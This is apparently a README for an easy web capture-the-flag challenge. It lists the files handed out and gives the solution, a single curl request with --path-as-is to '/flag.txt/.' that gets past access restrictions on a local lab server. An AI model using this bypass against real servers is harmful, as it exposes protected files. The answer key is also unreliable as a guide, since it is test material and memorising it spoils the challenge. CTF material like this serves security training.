 # readme
**Category:** Web
**Difficulty:** Easy
**Author:** maple3142

## Description

Try to read the `flag.txt` file.

## Distribution

- `readme.tar.gz`  (remove flag from Dockerfile then `tar czf readme.tar.gz src public default.conf docker-compose.yml Dockerfile package.json start.sh yarn.lock`)
- url

## Solution

```bash
curl --path-as-is 'http://localhost:80/flag.txt/.'
```
